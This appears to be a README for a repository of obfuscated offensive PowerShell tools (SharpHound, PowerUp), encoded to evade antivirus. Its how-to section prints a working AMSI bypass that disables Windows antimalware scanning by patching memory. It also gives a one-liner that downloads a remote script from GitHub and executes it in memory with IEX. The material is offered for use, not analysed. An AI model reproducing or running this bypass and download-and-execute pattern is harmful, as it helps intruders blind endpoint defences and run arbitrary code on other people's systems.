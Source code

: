 # A Collection of encoded powershell tools. All encoding done via Chimera

Tools added:
* SharpHound
* PowerUp

# How to

## Disable AMSI

``` pwsh
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if($b.Name -Like "*iUtils"){$c=$b}};$d=$c.GetFields('NonPublic, Static');Foreach($e in $d) {if($e.Name -Like "*Context"){$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Run PowerShell script in memory

``` pwsh
(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/OverflowMyBuffers/whatever-script.ps1') | IEX
```
